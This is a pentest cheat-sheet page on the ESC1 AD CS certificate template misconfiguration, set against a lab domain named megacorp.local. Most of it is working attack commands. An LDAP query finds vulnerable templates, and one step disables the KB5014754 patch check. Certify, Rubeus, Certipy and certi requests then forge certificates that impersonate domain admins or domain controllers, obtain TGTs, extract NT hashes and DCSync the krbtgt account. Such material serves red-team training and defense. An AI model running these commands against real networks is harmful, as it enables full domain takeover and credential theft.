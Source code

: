 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

- [https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/](https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/)

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Disable the KB5014754 Patch

Disable `szOID_NTDS_CA_SECURITY_EXT` extension checking (requires CertSvc restart):

```
Cmd > certutil.exe -setreg policy\DisableExtensionList +1.3.6.1.4.1.311.25.2
```




## Exploit



### Certutil

- [https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee](https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee)



### Certify

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### Certipy

Enroll a certificate with privileged subject in SAN:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template VulnTemplate -upn administrator@megacorp.local -dc-ip 192.168.1.11
$ proxychains4 certipy req -u 'PC01$@megacorp.local' -aes <AES_KEY> -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```

Request TGT providing the certificate and get the corresponding NT hash automatically:

```
$ certipy auth -pfx administrator.pfx -domain megacorp.local -username administrator -dc-ip 192.168.1.11
```



### certi

- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CorpCA -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
